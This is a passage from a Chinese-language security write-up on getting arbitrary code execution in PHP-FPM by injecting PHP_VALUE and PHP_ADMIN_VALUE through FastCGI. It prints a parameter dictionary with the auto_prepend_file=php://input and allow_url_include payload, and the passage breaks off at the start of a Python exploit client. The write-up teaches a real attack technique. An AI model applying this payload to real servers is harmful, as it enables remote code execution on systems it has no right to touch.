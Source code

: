 这个数组其实就是PHP中$\_SERVER数组的一部分，也就是PHP里的环境变量。但环境变量的作用不仅是填充$\_SERVER数组，也是告诉fpm：“我要执行哪个PHP文件”。

PHP-FPM拿到fastcgi的数据包后，进行解析，得到上述这些环境变量。然后，执行SCRIPT_FILENAME的值指向的PHP文件，也就是/var/www/html/index.php。

#### 任意代码执行

那么，为什么我们控制fastcgi协议通信的内容，就能执行任意PHP代码呢？

理论上当然是不可以的，即使我们能控制`SCRIPT_FILENAME`，让fpm执行任意文件，也只是执行目标服务器上的文件，并不能执行我们需要其执行的文件。

但PHP是一门强大的语言，PHP.INI中有两个有趣的配置项，`auto_prepend_file`和`auto_append_file`。

`auto_prepend_file`是告诉PHP，在执行目标文件之前，先包含`auto_prepend_file`中指定的文件；`auto_append_file`是告诉PHP，在执行完成目标文件后，包含`auto_append_file`指向的文件。

那么就有趣了，假设我们设置`auto_prepend_file`为`php://input`，那么就等于在执行任何php文件前都要包含一遍POST的内容。所以，我们只需要把待执行的代码放在Body中，他们就能被执行了。（当然，还需要开启远程文件包含选项`allow_url_include`）

那么，我们怎么设置`auto_prepend_file`的值？

这又涉及到PHP-FPM的两个环境变量，`PHP_VALUE`和`PHP_ADMIN_VALUE`。这两个环境变量就是用来设置PHP配置项的，`PHP_VALUE`可以设置模式为`PHP_INI_USER`和`PHP_INI_ALL`的选项，`PHP_ADMIN_VALUE`可以设置所有选项。（`disable_functions`除外，这个选项是PHP加载的时候就确定了，在范围内的函数直接不会被加载到PHP上下文中）

```
{
    'GATEWAY_INTERFACE': 'FastCGI/1.0',
    'REQUEST_METHOD': 'GET',
    'SCRIPT_FILENAME': '/var/www/html/index.php',
    'SCRIPT_NAME': '/index.php',
    'QUERY_STRING': '?a=1&b=2',
    'REQUEST_URI': '/index.php?a=1&b=2',
    'DOCUMENT_ROOT': '/var/www/html',
    'SERVER_SOFTWARE': 'php/fcgiclient',
    'REMOTE_ADDR': '127.0.0.1',
    'REMOTE_PORT': '12345',
    'SERVER_ADDR': '127.0.0.1',
    'SERVER_PORT': '80',
    'SERVER_NAME': "localhost",
    'SERVER_PROTOCOL': 'HTTP/1.1'
    'PHP_VALUE': 'auto_prepend_file = php://input',
    'PHP_ADMIN_VALUE': 'allow_url_include = On'
}
```

设置`auto_prepend_file = php://input`且`allow_url_include = On`，然后将我们需要执行的代码放在Body中，即可执行任意代码。

#### EXP

```python
import socket
import random
import argparse
import sys
from io import BytesIO
from urllib.parse import quote

# Referrer: https://github.com/wuyunfeng/Python-FastCGI-Client

PY2 = True if sys.version_info.major == 2 else False


def bchr(i):
    if PY2:
        return force_bytes(chr(i))
    else:
        return bytes([i])

def bord(c):
```